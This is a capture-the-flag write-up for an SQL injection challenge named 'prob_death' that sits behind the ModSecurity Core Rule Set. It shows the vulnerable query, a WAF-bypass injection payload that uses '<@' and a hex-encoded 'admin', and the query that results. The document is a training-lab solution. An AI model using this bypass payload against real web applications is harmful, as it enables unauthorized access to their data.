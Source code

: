 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 34
tags: [SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a437eb74-eff7-45be-bd3f-86e2c56d7dc3)

We are provided with the SQL query:

```sql
SELECT id FROM prob_death WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')
```

In this challenge as well, the Mod Security CRS is being used

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue.

![2](https://github.com/Kunull/Write-ups/assets/110326359/31d7abb4-4869-4388-8db4-c0c69df40d67)

However, we have to modify the payload slightly.

```
-1'<@=1 OR id LIKE 0x61646d696e OR '
```

&nbsp;

If we provide the following URI parameter:

```
?id=-1'<@=1 OR id LIKE 0x61646d696e OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_death WHERE id='-1'<@=1 OR id LIKE 0x61646d696e OR '' AND pw=md5('')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/b1beb237-820e-4e76-a770-5468e73b2512)
